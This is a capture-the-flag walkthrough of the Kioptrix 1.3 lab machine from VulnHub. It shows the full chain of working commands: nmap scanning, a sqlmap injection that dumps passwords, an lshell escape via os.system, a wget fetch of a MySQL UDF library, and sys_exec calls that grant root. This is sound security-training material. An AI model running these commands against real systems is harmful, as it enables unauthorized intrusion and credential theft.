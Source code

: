 # Kioptrix 1.3 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/ "URL for kioptrix 1.3"). The kioptrix series are intended for use with VMWare, but by following the instructions found [here](http://hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/ "running kioptrix in VirtualBox"), you can get the virtual machines to work with VirtualBox.

## Information gathering

By now, we know that our attacker's IP address is 10.0.2.5 from the result of the `ifconfig` command. To find the IP of the target, we'll scan the local subnet with `nmap -sn 10.0.2.0/24` to find what hosts are on the network.

![](images/ping.png "nmap -sn 10.0.2.0/24 shows us that there are four possible IP addresses for our target")

The two VirtualBox hosts are `10.0.2.3` and `10.0.2.8`, and VirtualBox uses the former for its nameserver, so our target is `10.0.2.8`.

## Scanning

Now, we'll use `nmap -sV 10.0.2.8` to enumerate the services running on the target, and this will provide an attack surface for us.

![](images/nmap.png "nmap -sV 10.0.2.8 tells us the services runnning on the target")

We see that the target has several ports open, and we'll go down the list to find an exploitable one.

## Gaining access

From previous engagements with the past Kioptrix virtual machines, I know that the version of OpenSSH running is not one that we can easily exploit. You can look through my previous writeups to see how I came to that conclusion, or you can run `searchsploit openssh` and see that none of the available exploits are that useful for us.

Instead, we'll target port 80, which is running the http service, meaning that if we go to http://10.0.2.8 in a web browser, we'll get a web page back.

![](images/front.png "Front page of http://10.0.2.8")

We can also run an application called OWASP ZAP which will inform us of any vulnerabilities in the web app. Loading up ZAP and putting http://10.0.2.8 into the target field will perform a scan of the web application, and we can see the results.

![](images/zap.png "Result of running OWASP ZAP")

It looks like the checklogin.php page is vulnerable to an SQL injection. Looking at the request sent, we can see that the HTTP POST method is used with parameters of "myusername", "mypassword", and "Login". We can take this information and use another tool, sqlmap, to perform automated SQL injections so that we can find valid usernames and passwords. We run this tool with the command `sqlmap -u "http://10.0.2.8/checklogin.php" --data "myusername=test&mypassword=test&Submit=login" --dump --level=5 --risk=3`. This tells sqlmap to target the checklogin.php page on 10.0.2.8, using the data string provided in an HTTP POST request, dump the resulting database table entries, and operate with high-level and high-risk tests.

![](images/sqlmap.png "Result of the sqlmap attack")

The resulting attack gives us the usernames and passwords of two users, john and robert. Logging in to the web page as either user just displays the username and password, so instead, we'll use SSH to connect to the vulnerable machine with the command `ssh john@10.0.2.8` and entering the password when prompted.

## Elevating Access

![](images/john.png "Logging in and exploring as john")

When we log in as either john or robert, we're put into a LiGoat shell that only allows us to perform a limited set of commands, `?`, `help`, `cd`, `clear`, `echo`, `exit`, `ll`, `lpath`, and `ls`. I hadn't heard of `ll` or `lpath` before, so I tried them out, and it looks like `ll` is just an alias for `ls -l`, and `lpath` defines the path that the user is allowed to be in. Running a command other than the ones listed results in an error that the command is unknown, and attempting to explore outside of the allowed path gives a warning on the first attempt and kicks you out of the system on the second attempt.

Using `ls -al`, we can see the dot files that are in our current directory. I hadn't heard of the .lhistory file before, so after some googling, I came to discover that it represents the presence of lshell, which is a limited shell environment [written in Python](https://github.com/ghantoos/lshell "Link to the lshell GitHub repo"). Doing some [research](https://www.aldeid.com/wiki/Lshell "lshell bypass") into lshell showed that it's possible to break out of the limited shell environment with the command `echo os.system('/bin/bash')`. This is because lshell used eval() to strip quotes from the command line, and as a result, it allowed for the execution of valid Python expressions.

![](images/escape.png "Breaking out of lshell")

Now that we're in a regular shell environment, we still need to get root access to the machine. Since this machine is running as a web server, I thought to check the /var/www directory to see if there was anything of interest.

![](images/www.png "Contents of /var/www")

Browsing the files with `cat` showed something interesting in checklogin.php, hard-coded credentials for access to an SQL database.

![](images/checklogin.png "Hardcoded credentials in checklogin.php")

It looks like we can log in to the MySQL database with the username "root" and an empty password. Doing so with `mysql -u root` shows that the credentials are valid.

![](images/mysql.png "Logging in as root to the MySQL database")

Doing some more [research](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/ "MySQL privilege escalation") shows us that it's possible to escalate our privileges if we already have root access to a MySQL database. To do so, we'll first need to download a [shared object file](https://github.com/mysqludf/lib_mysqludf_sys/blob/master/lib_mysqludf_sys.so "Link to the shared object file") onto our victim. This can be done with the command `wget --no-check-certificate https://raw.githubusercontent.com/mysqludf/lib_mysqludf_sys/master/lib_mysqludf_sys.so -O /home/john/.`.

![](images/wget.png "Downloading the shared object")

This exploit works by loading this file into a new table row and dumping that table row into a new file in the /usr/lib directory. We do this through MySQL ecause our regular user is unable to write to this directory, but because we're running MySQL as the root user, we're able to write to there. Then, we'll create a new function in MySQL that will point to the code in the new file, and then we're able to execute arbitrary system commands with that MySQL function.

However, halfway through the steps to set up the exploit, I found out that the /usr/lib/lib\_mysqludf\_sys.so file already existed, so it looks like the exploit had been already loaded in the system. Testing it out with the MySQL command `select sys_exec('id > /tmp/out; chown john.john /tmp/out');` will write the results of the `id` command to the file /tmp/out, and if we `cat` that file, we see that the program runs as root.

![](images/id.png "Testing the MySQL exploit")

Now that we know we can run arbitrary commands as root, we'll run the MySQL command `select sys_exec('adduser john admin');` which will add the john user to the admin group, giving them access to the `sudo` command. Exiting MySQL with `exit;`, running `sudo su root`, and entering john's password when prompted shows that we are now root!

![](images/root.png "Root access")
